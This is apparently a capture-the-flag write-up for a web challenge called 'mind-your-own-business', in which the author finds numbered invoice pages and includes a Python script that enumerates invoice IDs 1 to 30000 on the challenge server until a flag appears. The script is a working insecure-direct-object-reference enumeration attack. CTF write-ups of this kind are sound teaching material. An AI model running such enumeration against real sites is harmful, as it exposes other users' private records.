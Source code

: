 Get the flag from mind-your-own-business.

We enter on the subscription page, then we fill in the credintials.
We observe after that after the creditential completion is good, the page redirect us to a invoice page.
If we change the invoice page index we then observe we get more invoicees but some of them are "Oops, no invoice".

So then we have to test all the invoices to check in which page we get the "SSS", which is at the page 10946. 

//CODE

```py
import requests
import re


start = 1
end = 30000

session = requests.Session()

for invoice_id in range(start, end + 1):
    url = f"http://141.85.224.70:8085/invoice.php?invoice={invoice_id}"
    print(f"🔎 Verific {url}")

    try:
        response = session.get(url, timeout=5)
    except Exception as e:
        print(f"Eroare la {url}: {e}")
        continue


    if "Oops! Invoice not found!" in response.text:
        continue


    match = re.search(r"SSS\{.*?\}", response.text)
    if match:
        flag = match.group(0)
        print(f"\nFLAG la invoice={invoice_id}: {flag}\n")


        with open(f"invoice_{invoice_id}.html", "w", encoding="utf-8") as f:
            f.write(response.text)

        break
```

The found flag: **SSS{1ts_n0t_nic3_t0_sn00p_ar0und}**

